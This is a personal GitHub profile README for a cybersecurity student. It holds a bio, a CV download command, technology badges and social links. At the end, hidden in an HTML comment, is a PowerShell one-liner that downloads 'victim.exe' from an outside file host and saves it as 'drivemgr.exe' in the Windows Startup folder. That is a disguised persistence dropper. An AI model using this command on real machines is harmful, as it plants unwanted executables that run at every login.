 <img src="./assets/banner.png">

<h1 align="center">Hey there, I'm Heshan Thenura Kariyawasam <br>🌱Based in Sri Lanka 🇱🇰</h1>

<h2>

```bash
heshanthenura@github:~$ cat aboutme.txt

self-taught developer
currently pursuing BSc (Hons) in Information Technology specialising in Cyber Security
```
```bash
curl -O https://github.com/heshanthenura/heshanthenura/blob/main/assets/CV-Heshan_Thenura_Kariyawasam.pdf
```
### 📄 Download my [CV](https://github.com/heshanthenura/heshanthenura/raw/main/assets/CV-Heshan_Thenura_Kariyawasam.pdf)
</h2>


## 🛠️ I'm Playing with

![Java](https://img.shields.io/badge/Java-ED8B00?style=for-the-badge&logo=openjdk&logoColor=white)
![Spring Boot](https://img.shields.io/badge/Spring%20Boot-6DB33F?style=for-the-badge&logo=springboot&logoColor=white)
![JavaFX](https://img.shields.io/badge/JavaFX-5586A4?style=for-the-badge&logo=java&logoColor=white)
![Nim](https://img.shields.io/badge/Nim-FFE953?style=for-the-badge&logo=nim&logoColor=black)
![Go](https://img.shields.io/badge/Go-00ADD8?style=for-the-badge&logo=go&logoColor=white)
![Julia](https://img.shields.io/badge/Julia-9558B2?style=for-the-badge&logo=julia&logoColor=white)
![Python](https://img.shields.io/badge/Python-3670A0?style=for-the-badge&logo=python&logoColor=yellow)
![TypeScript](https://img.shields.io/badge/TypeScript-3178C6?style=for-the-badge&logo=typescript&logoColor=white)
![GDScript](https://img.shields.io/badge/GDScript-%2374267B.svg?style=for-the-badge&logo=godotengine&logoColor=white)
![Godot Engine](https://img.shields.io/badge/GODOT-%23FFFFFF.svg?style=for-the-badge&logo=godot-engine)
![SQL](https://img.shields.io/badge/SQL-4479A1?style=for-the-badge&logo=mysql&logoColor=white)
![React](https://img.shields.io/badge/react-%2320232a.svg?style=for-the-badge&logo=react&logoColor=%2361DAFB)
![React Native](https://img.shields.io/badge/react_native-%2320232a.svg?style=for-the-badge&logo=react&logoColor=%2361DAFB)
![Angular](https://img.shields.io/badge/angular-%23DD0031.svg?style=for-the-badge&logo=angular&logoColor=white)
![GitHub](https://img.shields.io/badge/github-%23121011.svg?style=for-the-badge&logo=github&logoColor=white)
![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)
![Firebase](https://img.shields.io/badge/Firebase-FFCA28?style=for-the-badge&logo=firebase&logoColor=black)
![Vercel](https://img.shields.io/badge/Vercel-000000?style=for-the-badge&logo=vercel&logoColor=white)
![Oracle Cloud](https://img.shields.io/badge/Oracle%20Cloud-F80000?style=for-the-badge&logo=oracle&logoColor=white)



## 🤙 Let's Connect & Collaborate
I'm always open to ideas, collabs, or just a good tech convo. Whether you're building something cool, learning something new, or just exploring the world of code, reach out. Let’s build, break, fix, and learn together.

<div align="center"><a href="https://twitter.com/Heshantk"><img width="50px" src="./assets/icons8-twitter.svg"></a><a href="https://www.linkedin.com/in/heshanthenura"><img width="50px" src="./assets/icons8-linkedin.svg"></a><a href="https://www.instagram.com/heshan_thenura/"><img width="50px" src="./assets/icons8-instagram.svg"></a><a href="https://youtube.com/@heshanthenura"><img width="50px" src="./assets/icons8-youtube.svg"></a><a href="https://www.tiktok.com/@heshanthenura"><img width="50px" src="./assets/icons8-tiktok.svg"></a></div>

<h1 align="center"><a href="mailto:heshanthenura@gmail.com">heshanthenura@gmail.com</a></h1>

<!--
<h1 align="center">Heshan Thenura Kariyawasam</h1>

## I am a self-taught programmer from Sri Lanka

Mostly I prefer Backend development.

### My Higher Education

- Pure Mathematics
- Applied Mathematics
- Physics
- Information and Communication Technology

### Frameworks that I work with

- JavaFX
- Spring Boot

### Technologies that I use

- Linux
- Oracle Cloud
- MySQL
- SQLite
- H2
- Git
- WebRTC
- Socket
- WebSocket

[![Heshan's top languages](https://github-readme-stats.vercel.app/api/top-langs/?username=heshanthenura&theme=blue-green)

### If you're interested in custom application development or would like to discuss a project, please don't hesitate to contact me.


<ul>
    <li><a href="https://twitter.com/Heshantk">Twitter</a></li>
    <li><a href="https://www.linkedin.com/in/heshanthenura">LinkedIn</a></li>
    <li><a href="https://www.instagram.com/heshan_thenura/">Instagram</a></li>
    <li><a href="https://youtube.com/@heshanthenura">YouTube</a></li>
    <li><a href="https://www.tiktok.com/@heshanthenura">TikTok</a></li>
</ul>


### [E-Mail](mailto:heshanthenura@protonmail.com) heshanthenura@protonmail.com -->

<!-- ```bash
 (new-object Net.WebClient).DownloadFile('https://dlsv37.sonicbit.net/file/dl2/MUVUOGlHNW9oOGJ4Y3h5M0FjUzRMa3lsbHBjbGQzWDF2bG9LZmdiVkVMU1FmeEovVTU0UWY0UFE5b3JMMVJQZDg4cVJXYWdRQlJmWnpVQ1Vkbm1tWEE9PQ==/victim.exe', "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\drivemgr.exe")

https://dlsv37.sonicbit.net/file/dl2/MUVUOGlHNW9oOGJ4Y3h5M0FjUzRMa3lsbHBjbGQzWDF2bG9LZmdiVkVMU1FmeEovVTU0UWY0UFE5b3JMMVJQZDg4cVJXYWdRQlJmWnpVQ1Vkbm1tWEE9PQ==/victim.exe

explorer %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup
``` -->
